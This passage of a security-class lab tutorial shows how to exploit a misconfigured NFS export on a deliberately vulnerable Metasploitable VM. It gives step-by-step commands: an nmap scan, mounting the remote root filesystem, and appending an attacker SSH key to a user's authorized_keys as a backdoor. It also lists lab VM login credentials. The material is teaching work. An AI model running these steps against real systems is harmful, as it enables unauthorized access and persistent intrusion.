of a remote server over a network on your own device much like a local
storage would.

NFS usually only allow a specific IP to access some specific directory
but if it is badly configured everyone can have access to the remote
machine.

The following command can tell you if there is any exported directories
oby the NFS server.

.. code:: console

   kali@kali:~$ showmount -e 192.168.2.212
   Export list for 192.168.2.212:
   /nfsshare 192.168.2.101

In this case the remote server with IP 192.168.2.212 has the ‘/nfsshare‘
directory open for IP 192.168.2.101.

In our case we will see how to exploit a misconfigured NFS server which
would display something like this when using the same command :

.. code:: console

   kali@kali:~$ showmount -e 192.168.2.212
   Export list for 192.168.2.212:
   / *

This tells us that the root directory is available to any IP address.

Setup
~~~~~

For this exploit we will need an additional Virtual Machine to act as
the NFS Server. We will be using the Metasploitable VM that is
specificly designed to have many vulnerabilities.

Download the Kali VM from this link

.. centered:: https://transvol.sgsi.ucl.ac.be/download.php?id=04154fac75807165 (3.05 Go)

| Working directory: ``~/SecurityClass/Tutorial-Extra``
| Connection:

============ ============
**username** **password**
============ ============
admin        nimda
============ ============

*The default keyboard layout is US so be carefull*

The next thing you need to do is to change the default network settings
on both your Kali and Metasploitable VMs.

For each VM in Virtualbox go to Settings -> Networks and change NAT for
Bridged networking. This will allow Kali to communicate with the other
VM and vice-versa.

Exploit
~~~~~~~

The first thing we need to do is fetch the target's IP address. In my
case it is 192.168.2.212 .

Using ``nmap`` we can scan a remote IP address to see if there are any
open ports :

.. code:: console

   kali@kali:~$ nmap -p0-65535 192.168.2.212
   Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 13:13 EDT
   Nmap scan report for 192.168.2.212
   Host is up (0.0038s latency).
   Not shown: 65505 closed ports
   PORT      STATE    SERVICE
   0/tcp     filtered unknown
   21/tcp    open     ftp
   22/tcp    open     ssh
   23/tcp    open     telnet
   25/tcp    open     smtp
   53/tcp    open     domain
   80/tcp    open     http
   111/tcp   open     rpcbind
   139/tcp   open     netbios-ssn
   445/tcp   open     microsoft-ds
   512/tcp   open     exec
   513/tcp   open     login
   514/tcp   open     shell
   1099/tcp  open     rmiregistry
   1524/tcp  open     ingreslock
   2049/tcp  open     nfs
   2121/tcp  open     ccproxy-ftp
   3306/tcp  open     mysql
   3632/tcp  open     distccd
   5432/tcp  open     postgresql
   5900/tcp  open     vnc
   6000/tcp  open     X11
   6667/tcp  open     irc
   6697/tcp  open     ircs-u
   8009/tcp  open     ajp13
   8180/tcp  open     unknown
   8787/tcp  open     msgsrvr
   39804/tcp open     unknown
   51060/tcp open     unknown
   53327/tcp open     unknown
   57207/tcp open     unknown

   Nmap done: 1 IP address (1 host up) scanned in 5.30 seconds

We can see that there are a lot of open ports on this machine as well as
the default port for nfs : 2049.

So we now that NFS is running so let's check what directories can be
mounted using the previously used command :

.. code:: console

   kali@kali:~$ showmount -e 192.168.2.212
   Export list for 192.168.2.212:
   / *

This is bad.. But this is something we can exploit ! We will create a
new directory on our Kali machine and mount the remote directory.

.. code:: console

   kali@kali:~$ mkdir /tmp/access
   kali@kali:~$ mount -t nfs 192.168.2.212:/ /tmp/access/

This will mount the root directory of 192.168.2.212 on our /tmp/access/
directory using NFS as file system.

We can check that it is indeed mounted using the following command
``df -k``:

.. code:: console

   kali@kali:~$ df -k
   Filesystem      1K-blocks    Used Available Use% Mounted on
   udev               972680       0    972680   0% /dev
   tmpfs              199768     980    198788   1% /run
   /dev/sda1        79980100 8847436  67026888  12% /
   tmpfs              998836       0    998836   0% /dev/shm
   tmpfs                5120       0      5120   0% /run/lock
   tmpfs              998836       0    998836   0% /sys/fs/cgroup
   tmpfs              199764     152    199612   1% /run/user/1000
   192.168.2.212:/   7282176 1383680   5531392  21% /tmp/access

Perfect ! Now you should be able to move to the ``/tmp/access``
directory and list all the files on the remote machine.

Backdoor
~~~~~~~~

That's good but we want an easy access to the machine by logging in as a
user. If you go to the ``/tmp/access/home`` you can see that there is a
user called msfadmin which we assume we don't know the password. We have
see before that the SSH is open so we can use it to create a backdoor.
Go to ``/tmp/access/home/msfadmin/.ssh`` and list all the files over
there.

.. code:: console

   kali@kali:/tmp/access/home/msfadmin/.ssh$ ls
   authorized_keys  id_rsa  id_rsa.pub

Perfect ! We can use the ``authorized_keys`` file to append our own ssh
public key and access this user easily.

First we need to generate a new ssh key on our Kali machine.

.. code:: console

   kali@kali:~$ ssh-keygen
   Generating public/private rsa key pair.
   Enter file in which to save the key (/home/kali/.ssh/id_rsa): nfs_rsa
   Enter passphrase (empty for no passphrase):
   Enter same passphrase again:
   Your identification has been saved in nfs_rsa
   Your public key has been saved in nfs_rsa.pub

Go back to the remote ``.ssh`` folder and append your public key to the
``authorized_keys``\ file :

.. code:: console

   kali@kali:/tmp/access/home/msfadmin/.ssh$ cat /home/kali/nfs_rsa.pub >> authorized_keys

If everything went well you should now be able to access the remote
machine as ``msfadmin``.

You can specify the public key to use when using ssh with the flag
``-i``.

.. code:: console

   kali@kali:~$ ssh -i nfs_rsa msfadmin@192.168.2.212
   Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

   The programs included with the Ubuntu system are free software;
   the exact distribution terms for each program are described in the
   individual files in /usr/share/doc/*/copyright.

   Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
   applicable law.

   To access official Ubuntu documentation, please visit:
   http://help.ubuntu.com/
   No mail.
   Last login: Thu Jul 23 16:43:59 2020 from 192.168.2.231
   msfadmin@metasploitable:~$ whoami
   msfadmin
   msfadmin@metasploitable:~$

Tadam !
